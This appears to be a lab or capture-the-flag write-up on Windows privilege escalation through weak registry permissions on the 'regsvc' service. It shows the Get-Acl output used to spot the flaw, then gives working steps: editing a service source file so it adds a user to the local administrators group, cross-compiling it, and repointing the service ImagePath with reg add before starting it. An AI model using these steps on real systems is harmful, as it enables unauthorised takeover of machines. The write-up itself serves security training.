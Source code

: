Kali VM

1. Open windows_service.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe` (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file 'x.exe', to the Windows VM.

Windows VM

1. Place 'x.exe' in ‘C:\Temp’.
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
3. In the command prompt type: `sc start regsvc`
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #5.1 - Click 'Completed' once you have successfully elevated the machine

**﻿Detection**

On Windows, enter the following command to get the security descriptor of 'regsvc'.

~~~
C:\Users\user>powershell -c "Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl"


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
~~~

Notice that the following groups have full control over the registry:
* NT AUTHORITY\INTERACTIVE
* NT AUTHORITY\SYSTEM
* BUILTIN\Administrators

**Exploitation**

To download the files from the Windows machine, the easiest is to right click on the 'Tools' directory, share it, and get the content using `smbget` or `smbclient` from Kali.

Now, let's modify the file '.\Source\windows_service.c' so that the `Run()` function looks like this:

```c
//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 
```
